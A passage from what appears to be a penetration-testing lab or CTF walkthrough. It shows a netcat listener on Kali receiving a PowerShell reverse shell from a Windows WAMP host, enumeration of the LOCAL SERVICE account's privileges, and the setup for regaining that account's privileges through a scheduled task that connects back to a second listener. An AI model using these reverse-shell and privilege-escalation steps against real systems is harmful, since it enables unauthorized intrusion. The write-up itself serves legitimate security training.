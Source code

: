 3. Connection received on our kali machine.

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 445
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::445
Ncat: Listening on 0.0.0.0:445
Ncat: Connection from 192.168.120.223.
Ncat: Connection from 192.168.120.223:50400.
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\wamp\www>
```

## Escalation

### Post Enumeration

In the current session, we are running as a LOCAL SERVICE account but some privileges assigned to this account are missing.

```
PS C:\wamp\www>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

From [this resource](https://github.com/itm4n/FullPowers), we find out that when a `LOCAL SERVICE` or `NETWORK SERVICE` is configured to run with a _restricted set of privileges_, permissions can be recovered by creating a `scheduled task`. The new process created by the `Task Scheduler Service` will have **all the default privileges** of the associated user account.

All privileges assigned to this `LOCAL SERVICE` account can be regained by creating a simple task using powershell. More information is available [here](https://itm4n.github.io/localservice-privileges/).

First, we start a listener on our Kali host.

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444                  
listening on [any] 4444 ...
```

Then, we create a new scheduled task to make a connection back to our listener.
